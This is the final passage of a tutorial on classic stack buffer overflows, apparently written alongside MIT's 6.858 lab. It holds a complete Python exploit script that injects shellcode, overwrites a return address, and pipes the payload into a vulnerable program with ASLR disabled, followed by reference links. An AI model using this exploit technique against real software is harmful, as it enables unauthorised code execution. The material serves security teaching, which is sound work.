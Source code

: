 ```python
#!/usr/bin/env python3
import os, sys, struct

addr_buffer = 0x7fffffffece0
addr_retaddr = 0x7fffffffed68

# We want buffer to first hold the shellcode
shellfile = open("shellcode.bin", "rb")
shellcode = shellfile.read()

# Then we want to pad up until the return address
shellcode += b"A" * ((addr_retaddr - addr_buffer) - len(shellcode))

# Then we write in the address of the shellcode.
# struct.pack("<Q") writes out 64-bit integers in little-endian.
shellcode += struct.pack("<Q", addr_buffer)

# write the shell code out to the waiting vulnerable program
fp = os.fdopen(sys.stdout.fileno(), 'wb')
fp.write(shellcode)
fp.flush()

# forward user's input to the underlying program
while True:
    try:
        data = sys.stdin.buffer.read1(1024)
        if not data:
            break
        fp.write(data)
        fp.flush()
    except KeyboardInterrupt:
        break
```

This program reads in the binary shell code, places it at the start
of the input, pads up until where the return address is stored on the
stack, and then puts the address of the buffer itself there. Then it
sends that payload to standard output so that we can pipe it to the
vulnerable program:

```console
$ ./exploit.py | env - setarch -R ./vulnerable
```

Hmm, that looks awfully empty. Is it working? Try typing `ls`... \o/

If you want to try your hands at writing an exploit yourself, I'd
recommend giving MIT's 6.858 Computer Security's [buffer overflow lab] a
go. This text was written in part to accompany that lab, so you should
be well equipped to handle that now. Good luck!

# 64-bit Considerations


  [Smashing the Stack for Fun and Profit]: http://phrack.org/issues/49/14.html#article
  [Smashing the Stack in 2011]: https://paulmakowski.wordpress.com/2011/01/25/smashing-the-stack-in-2011/
  [x86-64]: https://en.wikipedia.org/wiki/X86-64
  [AT&T syntax]: https://en.wikipedia.org/wiki/X86_assembly_language#Syntax
  [`strcpy`]: https://linux.die.net/man/3/strcpy
  [null-terminated strings]: https://en.wikipedia.org/wiki/Null-terminated_string
  [null character]: https://en.wikipedia.org/wiki/Null_character
  [Appendix A]: {{page.url}}#appendix-a-64-bit-execve-shell-code
  [Disabling Modern Defenses]: {{page.url}}#disabling-modern-defenses
  [environment variables]: https://wiki.archlinux.org/index.php/Environment_Variables
  [special value]: https://en.wikipedia.org/wiki/Buffer_overflow_protection#Canaries
  [`execstack`]: https://linux.die.net/man/8/execstack
  [free-for-all]: https://en.wikipedia.org/wiki/Calling_convention
  [`cdecl`]: https://en.wikipedia.org/wiki/X86_calling_conventions#cdecl
  [return to libc]: https://en.wikipedia.org/wiki/Return-to-libc_attack
  [visual explanation]: https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64
  [System V AMD64 ABI]: https://wiki.osdev.org/System_V_ABI#x86-64
  [borrowed code chunks]: http://users.suse.com/~krahmer/no-nx.pdf
  [return-oriented programming]: https://en.wikipedia.org/wiki/Return-oriented_programming
  [source fortification]: https://access.redhat.com/blogs/766093/posts/1976213
  [work around these defenses]: https://lobste.rs/s/up2x39/smashing_stack_21st_century#c_v5hama
  [buffer overflow lab]: http://css.csail.mit.edu/6.858/2019/labs/lab1.html